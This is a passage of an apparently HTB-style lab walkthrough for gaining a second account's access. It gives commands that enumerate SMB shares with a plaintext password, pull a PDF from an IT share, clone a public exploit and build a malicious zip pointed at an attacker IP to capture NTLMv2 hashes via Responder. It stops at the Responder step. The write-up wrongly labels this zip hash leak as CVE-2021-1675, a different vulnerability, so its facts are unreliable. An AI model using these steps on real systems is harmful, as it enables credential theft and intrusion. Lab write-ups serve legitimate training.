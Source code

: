 -----

## Gaining Access to a New Account

This section describes how to exploit a specific CVE to obtain credentials for another user.

### Enumerating SMB Shares

Identify accessible SMB shares using the `jfleshman` credentials.

```bash
crackmapexec smb 10.10.11.69 -u jfleshman -p 'PrometheusX303' --shares
```

The video identifies the `IT` share as having read/write access.

### Accessing the IT Share

Use `smbclient` to connect to the `IT` share and retrieve relevant files.

```bash
smbclient //10.10.11.69/IT -U jfleshman%'PrometheusX303'
```

Once inside `smbclient`:

```
dir
get "KeePass Upgrade Notice.pdf"
exit
```

### Exploiting CVE-2021-1675 (NTLMv2 Hash Capture)

The `KeePass Upgrade Notice.pdf` mentions several CVEs. One of them, after some research (in the video, through Google searches for "GitHub CVE-xxxx-xxxx" and blog posts), is identified as CVE-2021-1675, a vulnerability that can be used to capture NTLMv2 hashes when a specially crafted zip file is unzipped.

1.  **Clone the Exploit:**

    ```bash
    git clone https://github.com/lgandx/CVE-2021-1675
    cd CVE-2021-1675
    ```

2.  **Generate the Malicious Zip File:**

    ```bash
    python3 poc.py
    ```

      * Provide `malware.zip` as the filename.
      * Provide your attacker IP address (e.g., `10.10.14.8` if using a VPN like in HTB).

3.  **Set up Responder:**
    On your attacking machine, start Responder to capture the NTLMv2 hash.
